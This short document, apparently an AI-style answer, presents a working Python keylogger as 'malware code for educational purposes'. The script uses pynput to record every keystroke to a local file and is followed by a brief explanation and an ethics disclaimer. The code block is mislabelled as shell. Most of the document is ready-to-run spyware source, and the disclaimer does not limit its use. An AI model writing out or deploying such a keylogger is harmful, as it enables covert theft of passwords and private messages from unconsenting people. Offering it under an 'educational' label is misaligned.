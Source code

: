 Here's a basic example of malware code for educational purposes only. This script is meant to illustrate what malicious code might look like, and it should never be used for harm.

```sh
import os
import time
import pynput.keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f"[{key}]")

def start_keylogger():
    with pynput.keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    start_keylogger()
```

# Explanation:

## Imports: Uses pynput to listen to keyboard events.
## on_press function: Captures and logs keystrokes to a file named keylog.txt.
## start_keylogger function: Initializes the keylogger and starts listening for keypresses.

# Important Note: This code is only for educational and ethical hacking purposes. Unauthorized use of such scripts is illegal and unethical. Always get proper authorization before testing any security vulnerabilities.
